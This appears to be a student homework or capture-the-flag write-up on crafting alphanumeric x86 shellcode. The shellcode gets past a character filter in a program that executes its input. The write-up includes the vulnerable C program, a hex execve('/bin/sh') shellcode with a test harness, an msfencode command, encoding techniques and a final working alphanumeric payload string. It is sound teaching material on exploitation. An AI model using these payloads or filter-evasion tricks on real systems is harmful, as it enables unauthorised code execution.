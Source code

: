 # HW2-2 nphw1
**0016302 heron**

## Problem
Input: a string with following restrictions
Alphabets and Numbers only, which means: [0-9], [a-z], and [A-Z]
No "binsh/BINSH" characters
This string will be executed as machine code on the target server, which we call shellcode. So, we can guess that the program looks like this:

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
 
int main()
{
    char alpha_bin[4096];
    char invalid[]="BINSHbinsh";
    int i;
 
    scanf("%s", alpha_bin);
 
    for(i = 0; i < strlen(invalid); i++) {
        if(strchr(alpha_bin, invalid[i]) != NULL) {
            puts("invalid input");
            exit(0);
        }
    }
 
    (*(void  (*)()) alpha_bin)();
 
    return 0;
}
```

## Workable Shellcode
First, let's ignore the restrictions first. We may need a test code to execute "bin/sh" successfully for further steps. And here's is it:
```
/*
 
0804849c <_IO_stdin_used>:
 80484a0:       31 c0                   xor    %eax,%eax
 80484a2:       50                      push   %eax
 80484a3:       68 2f 2f 73 68          push   $0x68732f2f
 80484a8:       68 2f 62 69 6e          push   $0x6e69622f
 80484ad:       89 e3                   mov    %esp,%ebx
 80484af:       50                      push   %eax
 80484b0:       53                      push   %ebx
 80484b1:       89 e1                   mov    %esp,%ecx
 80484b3:       b0 0b                   mov    $0xb,%al
 80484b5:       cd 80                   int    $0x80
        ...
 
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
 
int main()
{
    char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";
 
    (*(void  (*)()) shellcode)();
 
    return 0;
}
```

Also, by referring to the system call document, what we learn that the registers should be set before calling "INT 0x80":

- EAX: 0x0b
- EBX: Address of "bin/sh" string
- ECX, EDX: 0x00 (optional)

## Try: msfencode
```
cat shellcode.txt | msfencode BufferRegister=ECX -i sc.bin -e x86/alpha_mixed -t python -b 'binshBINSH'
```
This piece of code should give out our solution. However, the encoder returns error saying that it can't find the solution.

## Write It on My Own
Since the existing encoder can't solve this problem, we now have to solve it on our own. The things we know so far:
- Shellcode is saved on the stack with size 4096.
- Acceptable instructions are listed here

### Issue 1: Storing Arbitrary Value on Stack
- PUSH a small random value into the stack
- POP to ECX
- DEC ECX to the wanted value
- PUSH ECX

For larger wanted value:
- PUSH a small random value into the stack
- POP to EAX
- XOR EAX, <value> (this may need to be done twice to gain the wanted value)
- PUSH EAX

Notice:
- the value for XOR should be calculated manually
- pick ECX for DEC/POP/PUSH instructions under our initial restrictions
- pick EAX for XOR (0x35 opcode)

### Issue 2: Storing Instructions on Stack
There are some instructions not accepted in our input shellcode, so we somehow generate the instructions as data and push them onto the stack. By having "-fno-stack-protector -z execstack" option while compiling in GCC, we can execute the pushed instructions later.

### Issue 3: Move EIP to Stack
- EIP is in the stack and pointing to the current shellcode
- ESP is where our instructions ("POP EBX", "INT 0x80") is pushed on
It will be easy if we call a jump instruction to move the EIP to ESP, then our instructions will be executed. However, we only have o8 (8-bit immediately) jump instructions, which is not long enough to jump to ESP.
Therefore, I popped the stack in order to increase ESP in the begin of the shellcode.
- POP ESP for many times: increase ESP value
- make ESP locates after (and close to) the end of our shellcode
- call a small 8-bit jump to our stack (where "POP EBX", "INT 0x80" locate)

## Solution
Here's my solution:
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXj0ZJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJRYQj0X5JCCX5Ul00Pj0X5JRYY5U007PTj0ZJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJRX5CG005q800Pj0X5kOOOPPj0ZJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJJRXJJJJJJJJJJJDDDDDDDDDDDDu0
